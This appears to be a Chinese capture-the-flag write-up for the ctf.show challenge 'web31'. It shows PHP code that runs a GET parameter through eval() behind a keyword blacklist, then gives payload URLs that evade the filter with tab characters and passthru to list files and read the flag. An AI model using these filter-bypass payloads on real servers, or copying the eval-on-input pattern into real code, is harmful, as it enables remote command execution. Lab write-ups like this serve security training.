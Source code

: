 # web31

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

只要不触发关键词匹配导致拦截就可以

空格匹配的话，可以尝试使用`%09`也就是`Tab`来进行替换

```plaintext
https://39bfaef5-681e-432f-9797-5d74465f2b7f.challenge.ctf.show/?c=passthru("ls%09-lh");
```

![img](img/image_20250222-182228.png)

那剩下的就很容易了

```shell
https://39bfaef5-681e-432f-9797-5d74465f2b7f.challenge.ctf.show/?c=passthru("head%09-n%0920%09fla*");

head -n 20 fla*
```

![img](img/image_20250223-182341.png)
